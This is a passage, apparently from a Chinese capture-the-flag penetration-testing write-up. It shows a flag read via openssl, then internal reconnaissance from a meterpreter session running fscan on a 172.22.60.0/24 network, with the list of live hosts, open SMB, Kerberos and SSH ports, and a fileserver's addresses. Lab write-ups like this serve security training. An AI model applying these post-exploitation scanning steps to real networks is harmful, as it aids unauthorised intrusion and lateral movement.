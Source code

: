 发现 openssl 可以利用，借此读取 Flag

[![](assets/1706846898-1984d2df4c837c0c148ca558bd1e610c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213956-38c7a5e8-c03e-1.png)

# 内网横向

## 信息搜集

Fscan 扫描

```plain
meterpreter > shell -c 'chmod +x *'
meterpreter > shell -c './fscan -h 172.22.60.52/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.60.8     is alive
(icmp) Target 172.22.60.15    is alive
(icmp) Target 172.22.60.42    is alive
(icmp) Target 172.22.60.52    is alive
[*] Icmp alive hosts len is: 4
172.22.60.42:445 open
172.22.60.15:445 open
172.22.60.8:445 open
172.22.60.42:139 open
172.22.60.15:139 open
172.22.60.8:139 open
172.22.60.15:135 open
172.22.60.42:135 open
172.22.60.8:135 open
172.22.60.52:80 open
172.22.60.52:22 open
172.22.60.8:88 open
[*] alive ports len is: 12
start vulscan
[*] NetInfo 
[*]172.22.60.42
   [->]Fileserver
   [->]172.22.60.42
   [->]169.254.241.110
```